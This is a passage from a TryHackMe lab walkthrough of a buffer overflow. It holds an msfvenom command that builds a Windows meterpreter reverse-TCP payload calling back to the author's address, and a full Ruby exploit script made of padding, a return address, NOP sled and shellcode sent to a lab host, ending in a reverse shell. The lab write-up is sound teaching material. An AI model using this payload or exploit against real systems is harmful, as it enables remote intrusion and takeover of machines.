 Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:

![Final Shellcode Payload](finalExplRuby.png)
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\x9d\x8a\xad\x59\xda\xc5\xd9\x74\x24\xf4\x5d\x33\xc9" +
"\xb1\x56\x83\xc5\x04\x31\x5d\x0f\x03\x5d\x92\x68\x58\xa5" +
"\x44\xee\xa3\x56\x94\x8f\x2a\xb3\xa5\x8f\x49\xb7\x95\x3f" +
"\x19\x95\x19\xcb\x4f\x0e\xaa\xb9\x47\x21\x1b\x77\xbe\x0c" +
"\x9c\x24\x82\x0f\x1e\x37\xd7\xef\x1f\xf8\x2a\xf1\x58\xe5" +
"\xc7\xa3\x31\x61\x75\x54\x36\x3f\x46\xdf\x04\xd1\xce\x3c" +
"\xdc\xd0\xff\x92\x57\x8b\xdf\x15\xb4\xa7\x69\x0e\xd9\x82" +
"\x20\xa5\x29\x78\xb3\x6f\x60\x81\x18\x4e\x4d\x70\x60\x96" +
"\x69\x6b\x17\xee\x8a\x16\x20\x35\xf1\xcc\xa5\xae\x51\x86" +
"\x1e\x0b\x60\x4b\xf8\xd8\x6e\x20\x8e\x87\x72\xb7\x43\xbc" +
"\x8e\x3c\x62\x13\x07\x06\x41\xb7\x4c\xdc\xe8\xee\x28\xb3" +
"\x15\xf0\x93\x6c\xb0\x7a\x39\x78\xc9\x20\x55\x4d\xe0\xda" +                                                                                                            
"\xa5\xd9\x73\xa8\x97\x46\x28\x26\x9b\x0f\xf6\xb1\xaa\x18" +                                                                                                            
"\x09\x6d\x14\x48\xf7\x8e\x64\x40\x3c\xda\x34\xfa\x95\x63" +                                                                                                            
"\xdf\xfa\x1a\xb6\x75\xf1\x8c\x33\x80\x52\xda\x2c\x90\x5c" +                                                                                                            
"\xf3\xdc\x1d\xba\xab\x4c\x4d\x13\x0c\x3d\x2d\xc3\xe4\x57" +                                                                                                            
"\xa2\x3c\x14\x58\x69\x55\xbf\xb7\xc7\x0d\x28\x21\x42\xc5" +                                                                                                            
"\xc9\xae\x59\xa3\xca\x25\x6b\x53\x84\xcd\x1e\x47\xf1\xa9" +                                                                                                            
"\xe0\x97\x02\x5c\xe0\xfd\x06\xf6\xb7\x69\x05\x2f\xff\x35" +                                                                                                            
"\xf6\x1a\x7c\x31\x08\xdb\xb4\x49\x3f\x49\xf8\x25\x40\x9d" +                                                                                                            
"\xf8\xb5\x16\xf7\xf8\xdd\xce\xa3\xab\xf8\x10\x7e\xd8\x50" +                                                                                                            
"\x85\x81\x88\x05\x0e\xea\x36\x73\x78\xb5\xc9\x56\xfa\xb2" +                                                                                                            
"\x35\x24\xd5\x1a\x5d\xd6\x65\x9b\x9d\xbc\x65\xcb\xf5\x4b" +                                                                                                            
"\x49\xe4\x35\xb3\x40\xad\x5d\x3e\x05\x1f\xfc\x3f\x0c\xc1" +                                                                                                            
"\xa0\x40\xa3\xda\x53\x3a\xcc\xdd\x94\xbb\xc4\xb9\x95\xbb" +                                                                                                            
"\xe8\xbf\xaa\x6d\xd1\xb5\xed\xad\x66\xc5\x58\x93\xcf\x4c" +                                                                                                            
"\xa2\x87\x10\x45"

RHOST = "10.10.64.5"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start msfconsole and set up our handler with the payload and run it in the background:

![Msf Payload](msfconsole.png)

Now, it is time to fire away our Ruby script ```ruby shellcode.rb```

![Final Reverseshell](finalReverseshell2.png)

Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
